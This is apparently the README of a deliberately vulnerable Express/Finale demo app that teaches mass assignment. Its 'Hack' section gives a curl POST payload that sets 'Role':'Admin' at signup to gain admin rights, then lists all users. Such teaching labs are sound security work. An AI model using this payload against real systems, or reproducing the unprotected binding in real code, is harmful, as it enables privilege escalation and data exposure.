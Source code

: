 # Mass Assignment with Express and Finale

This application is a demonstration prototype just to show how to perform Mass Assignment attack.

## Setup

- Install

```
npm install
```

- Init database

```
NODE_ENV="dev" npx sequelize-cli db:migrate
```

- Run

```
NODE_ENV="dev" npm start
```

## Usage

- Signup as Visitor

```
DATA='{"Login":"hobbit","firstName":"Frodon","lastName":"Sacquet"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA \
  http://localhost:3000/users
```

Look into the HTTP response: How to exploit Mass Assignment Attack ?

## Hack

- Signup as Admin (using Mass Assignment Attack)

```
DATA='{"Login":"pwned","firstName":"pwned","lastName":"pwned","Role":"Admin"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA \
  http://localhost:3000/users
```

- Get all users

```
curl http://localhost:3000/users | jq
```
